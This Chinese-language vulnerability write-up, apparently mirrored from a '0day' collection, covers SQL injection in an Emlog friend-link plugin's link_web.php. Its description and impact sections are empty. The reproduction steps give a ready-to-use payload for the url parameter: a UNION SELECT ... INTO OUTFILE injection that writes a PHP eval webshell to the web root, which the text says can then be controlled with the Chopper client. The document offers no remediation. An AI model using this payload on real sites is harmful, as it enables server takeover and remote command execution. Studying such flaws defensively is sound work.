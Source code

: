 # Emlog 友情链接自助插件存在 SQL 注入漏洞

> 原文：[http://book.iwonder.run/0day/Emlog/5.html](http://book.iwonder.run/0day/Emlog/5.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在该插件当中的 link_web.php 文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的 SQL 注入漏洞就这样简易的诞生了：

![image](img/7fef3cc74b3fb2948f5d449b6a054dfe.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行 SQL 注入，首先我们可以提交正常的访问请求，之后使用 burpsuite 进行抓包，之后改包，我们这里以 URL 为例：

在抓取到数据包之后，我们可以将 url 改为以下内容：

```
url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在 C:\phpstudy\www\下生成一个 shell.php，而且该 shell.php 中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。

